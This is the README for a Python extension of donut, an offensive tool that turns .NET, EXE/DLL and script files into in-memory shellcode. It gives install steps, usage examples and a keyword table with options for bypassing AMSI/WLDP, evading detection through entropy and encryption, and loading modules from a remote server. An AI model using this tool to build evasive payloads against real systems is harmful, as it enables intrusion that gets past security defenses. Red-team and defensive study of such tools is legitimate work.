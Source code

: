 # Python Extension

A Python C extension is now available which allows you to dynamically generate donut shellcode in Python.

## Requirements

The extension has only been tested in Python 3.7, it shouldn't have any compatibility issues with older 3.X versions of Python.

It will ***not*** work in Python 2.x.

## Installing the Extension

(Once the extension has been published to PyPi)
```
pip3 install donut-shellcode
```

## Manually Compiling And Installing the Extension

```bash
git clone https://github.com/TheWover/donut && cd donut
pip3 install . # or python setup.py install
```

## Usage

The Python extension accepts the same parameters as the main donut executable.

Here's a minimalistic example of using the extension:

```python
import donut
shellcode = donut.create(file="naga.exe", params='https://172.16.164.1/')
```

The ```donut``` module exposes only one function ```create()```, which is used to generate shellcode and accepts both positional and keyword arguments.

The only required parameter the ```create()``` function needs is the ```file``` argument which accepts a path to the .NET EXE/DLL or VBS/JS file to turn into shellcode.

```python
import donut

shellcode = donut.create(
    file='naga.exe',         # .NET assembly, EXE, DLL, VBS, JS or XSL file to execute in-memory
    url='http://127.0.0.1',  # HTTP server that will host the donut module
    arch=1,                  # Target architecture : 1=x86, 2=amd64, 3=x86+amd64(default)
    bypass=3,                # Bypass AMSI/WLDP : 1=none, 2=abort on fail, 3=continue on fail.(default)
    cls='namespace.class',   # Optional class name.  (required for .NET DLL)
    method='method',         # Optional method or API name for DLL. (method is required for .NET DLL)
    params='arg1 arg2',      # Optional parameters or command line.
    runtime='version',       # CLR runtime version. MetaHeader used by default or v4.0.30319 if none available
    appdomain='name'         # AppDomain name to create for .NET. Randomly generated by default.
)
```

## Keywords

The following table lists key words for the create method.

<table>
  <tr>
    <th>Keyword</th>
    <th>Type</th>
    <th>Description</th>
  </tr>
  <tr>
    <td>file</td>
    <td>String</td>
    <td>The path of file to execute in memory. VBS/JS/EXE/DLL files are supported.</td>
  </tr>
  <tr>
    <td>arch</td>
    <td>Integer</td>
    <td>Indicates the type of assembly code to generate. 1=<code>DONUT_ARCH_X86</code> and 2=<code>DONUT_ARCH_X64</code> are self-explanatory. 3=<code>DONUT_ARCH_X84</code> indicates dual-mode that combines shellcode for both X86 and AMD64. ARM64 will be supported at some point.</td>
  </tr>
  <tr>
    <td>bypass</td>
    <td>Integer</td>
    <td>Specifies behaviour of the code responsible for bypassing AMSI and WLDP. The current options are 1=<code>DONUT_BYPASS_NONE</code> which indicates that no attempt be made to disable AMSI or WLDP. 2=<code>DONUT_BYPASS_ABORT</code> indicates that failure to disable should result in aborting execution of the module. 3=<code>DONUT_BYPASS_CONTINUE</code> indicates that even if AMSI/WDLP bypasses fail, the shellcode will continue with execution.</td>
  </tr>
  <tr>
    <td>compress</td>
    <td>Integer</td>
    <td>Indicates if the input file should be compressed. Available engines are 1=<code>DONUT_COMPRESS_NONE</code>, 2=<code>DONUT_COMPRESS_APLIB</code> to use the <a href="http://ibsensoftware.com/products_aPLib.html">aPLib</a> algorithm. For builds on Windows, the <a href="https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlcompressbuffer">RtlCompressBuffer</a> API is available and supports 3=<code>DONUT_COMPRESS_LZNT1</code>, 4=<code>DONUT_COMPRESS_XPRESS</code> and 5=<code>DONUT_COMPRESS_XPRESS_HUFF</code>.</td>
  </tr>
  <tr>
    <td>entropy</td>
    <td>Integer</td>
    <td>Indicates whether Donut should use entropy and/or encryption for the loader to help evade detection. Available options are 1=<code>DONUT_ENTROPY_NONE</code>, 2=<code>DONUT_ENTROPY_RANDOM</code>, which generates random strings and 3=<code>DONUT_ENTROPY_DEFAULT</code> that combines <code>DONUT_ENTROPY_DEFAULT</code> with symmetric encryption.</td>
  </tr>
  <tr>
    <td>format</td>
    <td>Integer</td>
    <td>Specifies the output format for the shellcode loader. Supported formats are 1=<code>DONUT_FORMAT_BINARY</code>, 2=<code>DONUT_FORMAT_BASE64</code>, 3=<code>DONUT_FORMAT_RUBY</code>, 4=<code>DONUT_FORMAT_C</code>, 5=<code>DONUT_FORMAT_PYTHON</code>, 6=<code>DONUT_FORMAT_POWERSHELL</code>, 7=<code>DONUT_FORMAT_CSHARP</code> and 8=<code>DONUT_FORMAT_HEX</code>. On Windows, the base64 string is copied to the clipboard.</td>
  </tr>
  <tr>
    <td>exit_opt</td>
    <td>Integer</td>
    <td>When the shellcode ends, <code>RtlExitUserThread</code> is called, which is the default behaviour. Set this to 2=<code>DONUT_OPT_EXIT_PROCESS</code> to terminate the host process via the <code>RtlExitUserProcess</code> API.</td>
  </tr>
  <tr>
    <td>thread</td>
    <td>Integer</td>
    <td>If the file is an unmanaged EXE, the loader will run the entrypoint as a thread. The loader also attempts to intercept calls to exit-related API stored in the Import Address Table by replacing those pointers with the address of the <code>RtlExitUserThread</code> API. However, hooking via IAT is generally unreliable and Donut may use code splicing / hooking in the future.</td>
  </tr>
  <tr>
    <td>oep</td>
    <td>String</td>
    <td>Tells the loader to create a new thread before continuing execution at tht OEP provided by the user. Address should be in hexadecimal format.</td>
  </tr>
  <tr>
    <td>output</td>
    <td>String</td>
    <td>The path of where to save the shellcode/loader. Default is "loader.bin".</td>
  </tr>
  <tr>
    <td>runtime</td>
    <td>String</td>
    <td>The CLR runtime version to use for a .NET assembly. If none is provided, Donut will try reading from the PE's COM directory. If that fails, v4.0.30319 is used by default.</td>
  </tr>
  <tr>
    <td>appdomain</td>
    <td>String</td>
    <td>AppDomain name to create. If one is not specified by the caller, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
  <tr>
    <td>cls</td>
    <td>String</td>
    <td>The class name with method to invoke. A namespace is optional. e.g: <var>namespace.class</td>
  </tr>
  <tr>
    <td>method</td>
    <td>String</td>
    <td>The method that will be invoked by the shellcode once a .NET assembly is loaded into memory. This also holds the name of an exported API if the module is an unmanaged DLL.</td>
  </tr>
  <tr>
    <td>params</td>
    <td>String</td>
    <td>List of parameters for the .NET method or DLL function. For unmanaged EXE files, a 4-byte string is generated randomly to act as the module name. If entropy is disabled, this will be "AAAA"</td>
  </tr>
  <tr>
    <td>unicode</td>
    <td>Integer</td>
    <td>By default, the <code>params</code> string is passed to an unmanaged DLL function as-is, in ANSI format. If set, param is converted to UNICODE.</td>
  </tr>
  <tr>
    <td>url or server</td>
    <td>String</td>
    <td>If the instance type is <code>DONUT_INSTANCE_HTTP</code>, this should contain the server and path of where module will be stored. e.g: https://www.staging-server.com/modules/</td>
  </tr>
  <tr>
    <td>modname</td>
    <td>String</td>
    <td>If the type is <code>DONUT_INSTANCE_HTTP</code>, this will contain the name of the module for where to save the contents of <code>mod</code> to disk. If none is provided by the user, it will be generated randomly. If entropy is disabled, it will be set to "AAAAAAAA"</td>
  </tr>
</table>

## Author

The Python extension was written by [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)
